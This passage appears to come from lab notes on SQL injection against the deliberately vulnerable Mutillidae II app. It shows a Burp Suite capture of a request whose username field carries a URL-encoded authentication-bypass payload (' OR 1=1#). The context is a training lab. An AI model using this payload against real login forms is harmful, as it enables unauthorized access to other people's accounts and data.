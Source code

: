 `burpsuite` > `Proxy`

`HTTP Request`:
```http
GET /index.php?page=user-info.php&username='%2bOR%2b1%3d1%23&password=TEST123&user-info-php-submit-button=View+Account+Details📌 HTTP/2
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1; username=admin; uid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=user-info.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

![Lab - Mutillidae II 3](./assets/04_sql_injection_attacks_lab_mutillidae_ii_3.png)
